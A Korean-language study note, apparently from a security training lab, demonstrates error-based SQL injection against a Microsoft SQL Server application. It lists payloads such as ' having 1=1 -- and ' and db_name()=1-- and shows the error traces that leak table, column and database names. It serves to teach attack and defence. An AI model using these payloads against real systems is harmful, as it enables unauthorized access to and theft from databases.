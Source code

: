 ### Form Based SQL

정상 수행 목표

ex) 회원가입 폼, 로그인 폼, 검색 폼...



### Error Based SQL

브라우저로 출력되는 에러 메시지는 공격자에게 많은 정보를 제공한다.

#### 에러 메시지 확인

test'

~~~
com.microsoft.sqlserver.jdbc.SQLServerException: 문자열 'test''의 따옴표가 짝이 맞지 않습니다.
	com.microsoft.sqlserver.jdbc.SQLServerException.makeFromDatabaseError(SQLServerException.java:216)
	com.microsoft.sqlserver.jdbc.SQLServerStatement.getNextResult(SQLServerStatement.java:1515)
	com.microsoft.sqlserver.jdbc.SQLServerStatement.doExecuteStatement(SQLServerStatement.java:792)
	com.microsoft.sqlserver.jdbc.SQLServerStatement$StmtExecCmd.doExecute(SQLServerStatement.java:689)
	com.microsoft.sqlserver.jdbc.TDSCommand.execute(IOBuffer.java:5696)

~~~



#### 테이블 명 확인

' having 1=1 --

~~~~
com.microsoft.sqlserver.jdbc.SQLServerException: 열 'board_member.IDX'이(가) 집계 함수나 GROUP BY 절에 없으므로 SELECT 목록에서 사용할 수 없습니다.
	com.microsoft.sqlserver.jdbc.SQLServerException.makeFromDatabaseError(SQLServerException.java:216)
	com.microsoft.sqlserver.jdbc.SQLServerStatement.getNextResult(SQLServerStatement.java:1515)
	com.microsoft.sqlserver.jdbc.SQLServerStatement.doExecuteStatement(SQLServerStatement.java:792)
	com.microsoft.sqlserver.jdbc.SQLServerStatement$StmtExecCmd.doExecute(SQLServerStatement.java:689)
	com.microsoft.sqlserver.jdbc.TDSCommand.execute(IOBuffer.java:5696)
	com.microsoft.sqlserver.jdbc.SQLServerConnection.executeCommand(SQLServerConnection.java:1715)
	com.microsoft.sqlserver.jdbc.SQLServerStatement.executeCommand(SQLServerStatement.java:180)

~~~~



### DB 이름 추출

' and db_name()=1--

~~~
com.microsoft.sqlserver.jdbc.SQLServerException: nvarchar 값 'board'을(를) 데이터 형식 int(으)로 변환하지 못했습니다.
	com.microsoft.sqlserver.jdbc.SQLServerException.makeFromDatabaseError(SQLServerException.java:216)
	com.microsoft.sqlserver.jdbc.SQLServerResultSet$FetchBuffer.nextRow(SQLServerResultSet.java:4853)
	com.microsoft.sqlserver.jdbc.SQLServerResultSet.fetchBufferNext(SQLServerResultSet.java:1781)
	com.microsoft.sqlserver.jdbc.SQLServerResultSet.next(SQLServerResultSet.java:1034)
	kr.co.openeg.lab.test.util.TestUtil.readDB3(TestUtil.java:197)
	kr.co.openeg.lab.test.controller.TestController.testSqlInjectionB2(TestController.java:372)
	sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
	sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	java.lang.reflect.Method.invoke(Method.java:606)

~~~